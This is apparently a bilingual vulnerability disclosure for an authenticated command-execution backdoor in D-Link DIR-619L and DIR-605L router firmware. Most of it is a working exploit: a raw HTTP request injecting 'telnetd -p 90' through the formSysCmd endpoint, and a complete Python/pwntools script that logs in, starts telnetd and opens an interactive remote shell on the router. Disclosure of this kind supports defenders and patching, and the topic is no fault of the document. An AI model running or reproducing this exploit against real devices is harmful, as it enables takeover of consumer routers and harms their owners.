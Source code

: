 ```
Dlink model DIR-619L, the latest firmware 2.06B1, there is a backdoor function that can cause any system command to be executed after user authentication
download link: ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/
Vulnerability location: file:  /bin/boa  function:formSysCmd
The attacker calls this function by sending a post packet to the http://ip/goform/formSysCmd page.
The program will call the system function with the value of syscmd in the post package.
The same problem exists with the latest firmware 2.12B1 on the DIR-605L.
download link:ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-605L/REVB/

```
Post package structure

``` python
postData = {
	'sysCmd':cmd,
	'submit-url':'1234',
	}
response = requests.post('http://192.168.0.1/goform/formSysCmd',data=postData)
``` 
Http message:
``` 
POST /goform/formSysCmd HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.20.1
Content-Length: 36
Content-Type: application/x-www-form-urlencoded
submit-url=1234&sysCmd=telnetd+-p+90
``` 
The same problem exists with the latest firmware 2.12B1 on the DIR-605L.
download link:ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-605L/REVB/

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/8.png)

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/7.png)





Dlink型号DIR-619L最新固件2.06B1上存在验证身份后命令执行后门。
下载地址：ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/
攻击者可在验证身份后执行任意的系统命令。
漏洞位置 /bin/boa上的formSysCmd函数。
攻击者通过向http://ip/goform/formSysCmd页面发送post包调用此函数。
程序会将post包中syscmd的值通过sprintf后调用system函数。
Post结构
postData = {
	'sysCmd':cmd,
	'submit-url':'1234',
	}
	response = requests.post('http://192.168.0.1/goform/formSysCmd',data=postData)
http报文:
POST /goform/formSysCmd HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.20.1
Content-Length: 36
Content-Type: application/x-www-form-urlencoded
submit-url=1234&sysCmd=telnetd+-p+90

型号DIR-605L最新固件2.12B1上同样存在该问题。
下载地址ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-605L/REVB/


 
Script:
``` python
import requests
import sys
import struct
import base64
from pwn import *
ip='192.168.0.1'
port=101
def login(user,password):
	postData = {
	'login_name':'',
	'curTime':'12345',
	'FILECODE':'',
	'VER_CODE':'',
	'VERIFICATION_CODE':'',
	'login_n':user,
	'login_pass':base64.b64encode(password),
	}
	response = requests.post('http://192.168.0.1/goform/formLogin',data=postData)
def syscmd(cmd):
	postData = {
	'sysCmd':cmd,
	'submit-url':'1234',
	}
	response = requests.post('http://192.168.0.1/goform/formSysCmd',data=postData)
def inter():
	p=remote(ip,port)
	p.interactive()
if __name__ == "__main__":
	login('admin','123456')
	syscmd('telnetd -p '+str(port))
	inter()
	
``` 


